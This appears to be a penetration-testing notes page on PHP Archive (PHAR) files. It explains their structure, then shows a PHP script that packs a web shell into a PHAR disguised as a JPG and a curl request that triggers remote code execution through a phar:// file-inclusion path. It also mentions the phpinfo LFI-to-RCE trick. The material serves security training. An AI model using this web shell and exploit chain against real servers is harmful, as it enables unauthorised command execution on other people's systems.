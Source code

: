 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# PHAR

The PHAR file type is a PHP Archive format **designed to package an entire PHP application or library into a single distributable file**. Similar in concept to Java’s JAR or Python’s PEX, a PHAR bundles PHP scripts, metadata, and other resources in a compressed archive that **can be executed directly by the PHP interpreter**. This structure simplifies deployment by allowing developers to distribute one file instead of multiple dependencies, while still supporting compression methods such as gzip or bzip2 to reduce size.

Internally, a PHAR file consists of a manifest that describes the archive contents, followed by the actual files that make up the application. A stub script at the beginning of the archive is executed automatically when the PHAR is invoked, acting as the entry point of the application. Because PHAR files can embed executable PHP code, they provide powerful packaging capabilities but also carry inherent security risks. Improperly validated or untrusted PHAR files may be abused to deliver malicious code, particularly in scenarios where deserialization of PHAR metadata occurs.

For example, the `phar://` wrapper can be used to achieve RCE. The script below can be compiled into a `phar` file that when called would write a web shell to a `shell.txt` sub-file, which can be then accessed using `/`:

{% code title="shell.php" %}
```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```
{% endcode %}

{% code overflow="wrap" %}
```shell
# Compile the script into a phar file called 'shell.jpg'
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg

# Upload -> RCE (URL-encode '/' -> %2F)
curl http://<ip:port>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```
{% endcode %}

There is another obsolete LFI/uploads attack worth noting, which occurs if file uploads is enabled in the PHP config and the `phpinfo()` page is somehow exposed to us. This attack has very specific requirements to work: LFI + uploads enabled + old PHP + exposed `phpinfo()`. You can find more info [here](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-phpinfo).
